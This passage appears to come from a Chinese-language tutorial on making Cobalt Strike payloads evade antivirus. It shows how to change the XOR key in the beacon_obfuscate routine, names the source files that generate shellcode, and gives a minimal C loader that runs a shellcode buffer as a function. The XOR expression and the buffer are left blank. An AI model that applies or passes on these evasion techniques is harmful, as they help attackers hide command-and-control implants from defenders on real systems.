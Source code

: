 x64 同理修改。或者使用之前的师傅们改好的东西，直接把

```
beacon/BeaconPayload.java
```

复制过来。然后修改

```
public static byte[] beacon_obfuscate(byte[] var0) {
   byte[] var1 = new byte[var0.length];

   for(int var2 = 0; var2 < var0.length; ++var2) {
      var1[var2] = (byte)(var0[var2] ^ );
   }

   return var1;
}
```

的异或值，再将所有的 dll 更改后放入即可。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08Ufiap0KIIbJuDVxacDXCeQ4urdYXNL8dQBfYzCgSoM4mwWWIicQGuL3Yicvz9ozkOnuKVWzslyo0mPQ/640?wx_fmt=png)

2、修改源码。简单免杀：

shellcode 生成的路径为：

```
/aggressor/dialogs/PayloadGeneratorDialog.java
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08Ufiap0KIIbJuDVxacDXCeQ4AjjWWWlpjuYo4tCLvTD4ryaKOs7vDSNb3y071T2gfXJTdX52uMicY2g/640?wx_fmt=png)

以Ｃ为例，若需修改，直接选择 ToC, 跳转就可，位置在：

```
encoders/Transforms.java
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08Ufiap0KIIbJuDVxacDXCeQ4EJ05lhdibWQO7F1W80UiaEA3tSf7EeAYnbKiaRKx7wlyvzEfVUvQP2P0g/640?wx_fmt=png)

我们便可以直接拿过了我们的加载器来使用

```
#include <windows.h>
#include <stdio.h>
unsigned char buf[] ="";
void main(){   
    ((void(WINAPI*)(void))&buf)();
}
```

此时生成的. c 文件如下：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08Ufiap0KIIbJuDVxacDXCeQ46umxZeXrVuJL8ZpWuDq2mAxrSbE6tvic11JGibfd2RWLIvVr7jQyYqvg/640?wx_fmt=png)

参考文章：  
